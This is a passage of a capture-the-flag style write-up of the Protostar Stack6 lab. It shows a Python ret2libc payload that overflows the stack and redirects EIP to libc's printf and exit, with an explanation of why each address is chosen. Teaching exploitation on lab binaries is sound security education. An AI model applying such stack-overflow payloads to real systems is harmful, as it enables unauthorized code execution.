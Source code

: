 ![Stack6 gdb](/assets/img/protostar/stack6-gdb-ret2libc-2.png)

so now i have addr for this message string at `0xbffff77c`
let,s update our exploit test
```py
#fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
fuzz="Hello Iam Sysc4ll3r :)\x00FGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
ebp="TTTT"
eip="\x90\xdf\xed\xb7"  #  process virtual address which we get for printf function
ret="\xc0\x60\xec\xb7" # process virtual address which we get for exit function
message_addr="\x7c\xf7\xff\xbf" # 0xbffff77c address for "Hello Iam Sysc4ll3r :)"                
print(fuzz+ebp+eip+ret+message_addr)
```

so first we overflow the stack and hijack `eip` and then `jump` to `printf` address
and when `printf` finished execution it need address for `eip` to return  to so we create a return address for it pointed to `exit` function
in `libc` but onesecond ? how `printf` will work with out arguments we need to pass string argument for it so we will pass a pointer for message `Hello Iam Sysc4ll3r :)` to make the program do the following `printf("Hello Iam Sysc4ll3r :)");exit(n)`

so let,s do it and see what happened :D  

